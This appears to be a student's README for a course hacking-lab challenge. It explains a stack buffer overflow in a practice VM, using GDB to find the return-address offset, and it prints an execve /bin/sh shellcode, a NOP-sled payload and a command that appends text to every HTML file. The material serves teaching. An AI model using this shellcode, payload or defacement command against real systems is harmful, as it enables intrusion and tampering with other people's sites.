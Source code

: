 # Nu CHALLENGE (INF473X The Hacking Xperience)

## Run commands

Run `./hack_terminal` to open a fake terminal of the VM. Then, type `cd ; for i in $(find . -name *.html); do echo '<p>YOUR NAME</p>' >>  $i; done` to add `YOUR NAME` at the bottom of the HTML page.


## Explanations
The vulnerability used is a buffer overflow. When the VM asks for a name, the user simply gives it a too long name to the point where the return address at the end of function `parse` is overwritten. This return address is then modified to point toward the beginning of the buffer (that stores the user's input) and execute malicious instructions in it. Here, the malicious instructions are launching a shell and modify all HTML files as done in the Mu challenge.

The shellcode used is `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`. The rest of the memory is filled by the no-operation instruction `\x90` to reach the return address.

## GDB Tests

### Proof of overwrite

Let's use GDB (a debugger tool) to better understand what's happening in the stack memory. We'll be using the c program _test_gdb.c_ which is a simplified version of the source code of the application. Once it is compiled with the command `gcc -m32 -fno-stack-protector -z execstack test_gdb.c -o test_gdb`, we can run gdb using `gdb test_gdb`.

First of all, let's try to run the program and feed it a too long name with the command `r < attack.txt` (_attack.txt_ contains a 200-long string of letters 'A' and can be generated with Python `python3 -c 'print("A"*200)' > attack.txt`). Gdb replies a segmentation fault :
```
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```
`0x41414141` is supposed to be the return pointer and is now not recognised. Moreover, 41 turns out to be the hexadecimal code for the letter 'A' which isn't a coincidence. Indeed, the return pointer was overwritten by the user's input as the latter entered a too long name.

### Exploitation

Let's dig deeper and try to count the exact number of letters 'A' needed to overwrite the return pointer with the sequence one wants. This count is simply the distance between the return pointer and _greeting_text_ + 12 (the 12 first characters are already written : _"Hello, dear "_). To find the return pointer's position in the stack, I put a break at the beginning (at the `push` level) of the function `parse` with the command `b *0x########` (in my case `b *0x56556231` and can be access when `parse` is disassembled  : `disas parse`). When running the program, it stops at this break and the stack pointer is currently the return pointer. So the return pointer's position can be access with :
```
gdb-peda$ x/xw $sp
0xffffcf1c:	  0x565562d6
```
Now, all that remains is to find _greeting_text_'s position in the memory. The function `strcat` takes two arguments one of which is our interest variable. I put another break at the level of `strcat`, run the program until this second break and show this arguments (`dumpargs` works only with GDB Peda) :
```
gdb-peda$ dumpargs
Guessed arguments:
arg[0]: 0xffffce90 ("Hello, dear ")
arg[1]: 0xffffcd90 ('A' <repeats 200 times>...)
```
The distance between the return pointer and _greeting_text_ can be calculated as such :
```
gdb-peda$ p/d 0xffffcf1c - 0xffffce90
$2 = 140
```

Let's check this count and generate a new _attack.txt_ : `python3 -c 'print("A"*128 + "BBAB") ' > attack.txt`. Go back to gdb and run the program `r < attack.txt` :
```
Stopped reason: SIGSEGV
0x42414242 in ?? ()
```
We still get a segmentation fault but this time, the return pointer has been successfully modified to `42414242` which corresponds to the hexadecimal code of "BBAB".

### Structure of the stack memory
```
| ############## BUFFER ############### | ###### GREETING_TEXT ###### | # SOMETHING # | # RETURN ADDRESS # |
|                 256                   |             128             |       12      |         4          |
```
